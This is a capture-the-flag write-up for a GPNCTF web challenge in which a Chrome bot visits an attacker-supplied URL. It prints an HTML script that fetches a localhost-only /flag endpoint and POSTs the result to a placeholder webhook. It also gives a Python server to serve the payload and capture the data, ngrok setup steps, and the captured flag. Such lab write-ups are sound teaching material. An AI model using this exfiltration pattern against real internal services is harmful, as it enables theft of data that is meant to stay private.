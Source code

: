 # Description
I heard you like flags, so I launched Chrome with a lot of flags again so you can get your flag!
This time the flag is localhost:1337/flag, and the bot will visit your URL!

# Solution
The challenge is similiar to the so-many-flags but now instead of providing the HTML directly, we need to provide a URL to a page, to which the server sends the request.
```javascript
app.post('/submit', (req, res) => {
  const { url } = req.body;

  if (!url) {
    return res.status(400).send('No URL provided');
  }

  let parsed = new URL(url);
  if (parsed.protocol !== 'http:' && parsed.protocol !== 'https:') {
    return res.status(400).send('Invalid URL');
  }
  ...
}
```

The server now also has `/flag` endpoint, which can be only accessed from the running instance. 
```javascript
app.get('/flag', (req, res) => {
  if (req.connection.remoteAddress === '::ffff:127.0.0.1' || req.connection.remoteAddress === "::1") return res.send(flag);
  res.send(`Nope! Your IP (${req.connection.remoteAddress}) is not localhost!`);
})

app.listen(port, () => {
  console.log(`Server running on port ${port}`);
});
```

So the goal is pretty simple, create a website, which will make a request to `/flag` endpoint and return the result to us. For this I have used the same script from the previous challenge:
```javascript
<script>
    fetch("http://127.0.0.1:1337/flag")
        .then(response => response.text())
        .then(text => {
            fetch("YOUR_WEBHOOK_HERE", {
                method: "POST",
                body: text
            });
        });
</script>
```

Now the only thing is to create a server which the target can reach and get the exploit. I've explored 2 options
1. I found another [webhook website](https://webhook.site/), which can serve GET and POST responses, which can be configured <img width="299" alt="even_more_flags1" src="https://github.com/AdamZvara/CTF/assets/36104483/22c7bcc4-3b0d-4e29-a7b2-0329d3234fc7">
  - after configuration just change the address of `YOUR_WEBHOOK_HERE` to webhook address and get the flag
  - <img width="209" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/87ae8b94-fad5-48bf-963e-9258a1ec99b4">
2. another thing I played around is [ngrok](https://dashboard.ngrok.com/), which is a bit more flexible and can run multiple protocols
  - the configuration was simple, first create python server
```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class MyServer(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        with open('exploit.html', 'r') as f:
            self.send_header('Content-type', 'text/html')
            self.end_headers()
            self.wfile.write(f.read().encode())

    def do_POST(self):
        flag = self.rfile.read(int(self.headers['Content-Length'])).decode('utf-8')
        print(flag)

def run():
    server_address = ('localhost', 8001)
    httpd = HTTPServer(server_address, MyServer)
    httpd.serve_forever()

run()
```
  - the server first receives the GET request and sends the exploit.html and second time it receives the POST request with the flag and prints it
  - run the server: `python3 pyserver.py` (listens to localhost:8001)
  - instal and setup ngrok
  - run ngrok: `ngrok http http://localhost:8001`
  - change the `YOUR_WEBHOOK_HERE` address to your ngrok address
  - after we provide the ngrok address to the challenge we get the flag
```
127.0.0.1 - - [02/Jun/2024 18:49:30] "GET / HTTP/1.1" 200 -
GPNCTF{WHY_D0_50M3_0F_TH353_FL4G5_3V3N_3X15T}
```

